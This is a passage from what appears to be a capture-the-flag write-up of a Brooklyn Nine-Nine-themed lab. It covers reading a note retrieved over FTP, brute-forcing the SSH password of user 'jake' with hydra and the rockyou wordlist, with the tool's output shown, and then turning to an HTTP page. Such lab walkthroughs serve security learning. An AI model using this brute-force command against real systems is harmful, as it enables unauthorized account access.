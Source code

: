 {% endhighlight %}

We logged in `ftp`, found a file called `note_to_jake.txt`, downloaded it, and then read. 

So Jake had a weak password, and something tells me he hasn't changed it yet. Let's make use of it.

> “Sarge, with all due respect, I am gonna completely ignore everything you just said.” — Jake Peralta

### Bruteforcing SSH
We can bruteforce a ssh account credentials using `hydra`. Syntax for this tool:

- t - run TASKS number of connects in parallel, for SSH 4 is suggested

- l - login, use only one username or a list

- P - password wordlist

{% highlight console %}
m0rn1ngstr@kali:~/THM/b99$ hydra -t 4 -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.178.215
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 06:50:11
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.178.215:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.178.215   login: jake   password: [jakespass]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 06:52:33

{% endhighlight %}

And, we got Jake's password. 

> "Cool, cool, cool, cool, cool. No doubt, no doubt, no doubt." — Jake Peralta

But let's not jump into gaining shell yet.
We still have HTTP page unchecked. 

### HTTP
After accessing this page in browser we saw this:

<figure>
	<a href="/assets/images/b99/b99_steg.jpg"><img src="/assets/images/b99/b99_steg.jpg"></a>
</figure>
